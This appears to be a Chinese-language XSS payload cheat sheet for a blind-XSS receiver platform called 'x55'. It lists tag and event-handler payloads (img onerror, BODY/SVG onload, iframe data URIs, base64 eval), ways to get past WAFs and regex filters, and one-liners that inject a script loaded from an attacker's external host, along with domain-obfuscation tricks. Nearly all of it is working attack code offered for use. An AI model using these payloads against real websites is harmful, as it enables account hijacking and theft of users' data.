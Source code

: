 # x55-bypass

---

### 规则

```
1.x55平台做了http重定向https，//无论解析成http和https都可以使用；x55平台地址“？”后面可以不要
2.标签与第一个属性之间可以用“/”代替空格
3.引号内容可以转10进制或者16进制
4.style=display:none  #设置成无显示，PS：有些标签不一定支持
5.域名可以换成真实IP、url编码、双字节编码、16进制、8进制
6.网站有jq可以使用$.getScript("js地址")
```



### 常用

```
// <BODY/ONLOAD=$.getScript("js地址")>
```



### 绕过规则

```
https://www.freebuf.com/articles/web/153055.html
https://www.cnblogs.com/wjrblogs/p/12341190.html
```



### 图片加载错误执行js代码（不显示图片）

```
// <img/src=# style=display:none onerror=$.getScript("js地址")>
// <img/src=# style=display:none onerror=createElement('script');body.appendChild(s);s.src='js地址'>
```

bypass 常规waf(x=alert(1))

```
冷门标签绕过：

// `!-- --`绕过:
// `<!--<img src="--><img src onerror=x//">`

// `<style><img src="</style><img src onerror=x//">`
```




### 短，无script标签(x=alert('123'))

```
// <BODY/ONLOAD=x>   
// <SVG/ONLOAD=x>
```



### base64

```
// <img style=display:none src=# onerror=eval(atob('YWxlcnQoJzEyMycp'))>
YWxlcnQoJzEyMycp => alert('123')
```



### data:text/html  # 目前只能测试能在iframe上使用

```
// <iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E -> <script>alert(1)</script>
```



### 绕过<script src>的正则

```
// <SCRIPT a=">" SRC="//xxx.com/xxxx"></SCRIPT>   
```



### 当fuzz出可以执行js代码的标签后，执行在当前页面添加script标签语句

```
// <img src=# onerror=s=createElement('script');body.appendChild(s);s.src='js地址';>
```



### 可用（不看伪装效果，动静较大）

```
// <IFRAME SRC=# onmouseover=$.getScript("js地址")></IFRAME>  
// <input/onmouseover=$.getScript("js地址")>
```

